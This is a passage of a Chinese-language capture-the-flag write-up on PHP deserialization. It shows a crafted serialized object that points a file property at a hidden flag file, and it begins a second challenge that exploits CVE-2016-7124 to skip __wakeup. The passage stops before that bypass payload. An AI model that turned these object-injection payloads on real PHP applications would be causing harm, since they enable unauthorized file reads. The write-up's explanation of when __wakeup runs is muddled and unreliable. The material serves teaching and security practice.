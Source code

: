 __wakeup(): 在反序列化前執行

先試著 `echo serialize(new NISRA());`

獲得 `O:5:"NISRA":1:{s:4:"file";s:6:"hi.php";}`

送回題目得到 `flag is in ./5k4g4flag.php`

這時可以直接手動把序列化物件中的 hi.php 改成 5k4g4flag.php，且字串內容長度也要記得改，或是將 exploit 中的 $file 值改為 5k4g4flag.php 再生成一次序列化物件，我是選擇後者，因為懶 :3

最後 exploit 產生之序列化物件 `O:5:"NISRA":1:{s:4:"file";s:13:"5k4g4flag.php";}` 送回去即得 flag

### Deserialization 02

```php
<?php
    include("flag.php");

    class Flag{
        public $key = "deadbeef";

        function __destruct(){
            global $flag;
            echo $flag;
        }

        function __wakeup(){
            if($this->key !== $serect){
                global $flag;
                $flag = "You can not read the flag.";
            }
        }
    }

    show_source(__FILE__);
    $your_flag = unserialize($_GET["input"]);
?>
```

雖然最後執行的 `__destruct()` 會 `echo $flag`，但因為要執行 `unserialize()`，還是會在 `__destruct()` 之後執行 `__wakeup()`，導致 flag 被覆寫掉，而不知道 `$secret` 的值，必須想辦法繞過 `__wakeup()` 讓系統不要執行它

這邊在考 [CVE-2016-7124](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7124)，這是發生在 php 5.6.25 之前以及 php 7.0.10 之前，因對某些無效物件處理不當造成的漏洞

先產生一個正常的序列化物件

```php
<?php
    class Flag{
        public $key = "deadbeef";
    }

	echo serialize(new Flag());
?>
```
